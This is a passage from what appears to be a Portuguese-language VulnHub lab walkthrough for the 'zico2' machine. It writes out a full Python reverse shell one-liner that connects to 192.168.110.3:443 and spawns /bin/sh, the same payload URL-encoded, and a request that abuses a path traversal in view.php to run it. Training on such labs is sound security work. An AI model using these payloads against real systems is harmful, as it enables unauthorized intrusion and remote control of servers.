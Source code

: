
Depois de testado procuramos por um comando para nos retornar o shell reverso. Utilizamos o **rbscheat** que pode ser encontrado no GitHub

```bash
rbscheat -i 192.168.110.3:443 -l python
```

![](/assets/img/Vulnhub/zico2/shellReverso-rbscheat.png)

> - ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.110.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```


Vamos codificar para URL o comando acima para enviar pelo browser

![](/assets/img/Vulnhub/zico2/shellReverso-comandoCodificado.png)

> - ```%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%22%2c%34%34%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27```


Agora enviamos o payload para shell reverso via URL.

```
192.168.110.11/view.php?page=../../../../../usr/databases/charlie.php&cmd=%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%22%2c%34%34%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27
```
